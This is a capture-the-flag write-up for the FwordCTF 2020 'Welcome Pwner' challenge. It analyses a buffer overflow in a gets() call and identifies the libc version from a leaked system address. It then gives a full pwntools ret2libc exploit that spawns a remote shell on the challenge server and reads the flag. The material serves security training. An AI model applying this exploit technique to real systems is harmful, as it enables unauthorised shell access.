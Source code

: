 # FwordCTF 2020

## Welcome Pwner

> 374
> 
> something to warm you up.
>
> `nc 54.210.217.206 1240`
>
> Author : haflout
>
> [`Molotov`](molotov)

Tags: _pwn_ _x86_ _remote-shell_ _bof_ _rop_


## Summary

Beginner BOF with `system` leaked, however user must find libc version themselves.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Most mitigations in place, however no stack canary; BOF -> ROP.

    
### Decompile with Ghidra

```c
undefined4 vuln(void)
{
  char local_20 [24];
  
  printf("%x\n",system);
  puts("Input : ");
  gets(local_20);
  return 0;
}
```

Not a lot here; `system` address leaked with `gets` vulnerability.  `local_20` is `0x20` bytes from the return address on the stack.  Basic BOF.

Without knowing the version of libc we cannot pass the location of `/bin/sh` to `system`;  identifying that however is simple with [libc-database](https://github.com/niklasb/libc-database):

```
# nc 54.210.217.206 1240
f7de68b0
Input :
```

Take the last 3 nibbles and pass to `./find`:

```
# ./find system 8b0 | grep _i386
archive-glibc (id libc6_2.30-0ubuntu2.1_i386)
ubuntu-eoan-i386-libc6 (id libc6_2.30-0ubuntu2.2_i386)
http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.30-0ubuntu2_i386.deb (id libc6_2.30-0ubuntu2_i386)
```

Multiple hits.  I went with `libc6_2.30-0ubuntu2_i386` and it worked out just fine.  If it had failed, then there was only two other options to try.


## Exploit

This code assumes that `libc-database` is located in the same directory (I just sym linked it) as `exploit.py`.

From within the `libc-database` type:

```
# ./download libc6_2.30-0ubuntu2_i386
```

This will download libc, ld, et al.

### Setup

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./molotov')
context.log_level = 'INFO'
context.log_file = 'log.log'

'''
# local libc
libc = binary.libc
p = process(binary.path)
'''
# task libc
libid = 'libc6_2.30-0ubuntu2_i386'
libpath = os.getcwd() + '/libc-database/libs/' + libid + '/'
ld = ELF(libpath + 'ld-2.30.so')
libc = ELF(libpath + 'libc-2.30.so')
#p = process([ld.path, binary.path], env={'LD_LIBRARY_PATH': libpath})
p = remote('54.210.217.206', 1240)
#'''
```

The first few lines should not require much of an explanation, except perhaps the `binary = context.binary = ELF('./molotov')` statement.  The `context.binary` there in the middle will set the context (arch, os, etc...) so that `rop`, `asm`, `constants`, etc... statements produce the correct results.

The next section (selected by placing `#` at the first or last `'''`) determines if you want to use your local libc or the challenge libc.  For most easy challenges I dev/test with the local libc and then just test with the task libc.  However for some, especially when pulling addresses from the stack, I've found inconsistencies between my local libc is vs. the task libc.  Often time is wasted having to refactor or completely resolve for the task libc.  The second block handles launching a challenge binary with the intended libs.  And `gdb` works just fine with this as well.

### BOF, ROP, Shell

```python
_ = p.recvline()
system = int(_,16)
log.info('system: ' + hex(system))
libc.address = system - libc.sym.system
log.info('baselibc: ' + hex(libc.address))

payload  = 0x20 * b'A'
payload += p32(libc.sym.system)
payload += 4 * b'B'
payload += p32(libc.search(b'/bin/sh').__next__())

p.sendlineafter('Input : \n',payload)
p.interactive()
```

With the correct libc in hand, just capture the system address, compute the base of libc, then setup your ROP chain after padding with `0x20` bytes.

Output:

```bash
# ./exploit.py
[*] '/pwd/datajerk/fwordctf2020/welcome_pwner/molotov'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/fwordctf2020/welcome_pwner/libc-database/libs/libc6_2.30-0ubuntu2_i386/ld-2.30.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/fwordctf2020/welcome_pwner/libc-database/libs/libc6_2.30-0ubuntu2_i386/libc-2.30.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 54.210.217.206 on port 1240: Done
[*] system: 0xf7dac8b0
[*] baselibc: 0xf7d67000
[*] Switching to interactive mode
$ id
uid=1000(fword) gid=1000(fword) groups=1000(fword)
$ ls -l
total 32
-rw-r--r-- 1 root root    24 Aug 29 14:25 flag.txt
-rwxr-xr-x 1 root root  7492 Aug 29 14:25 molotov
-rwxr-xr-x 1 root root 18744 Aug 29 14:25 ynetd
$ cat flag.txt
FwordCTF{good_j0b_pwn3r}
```
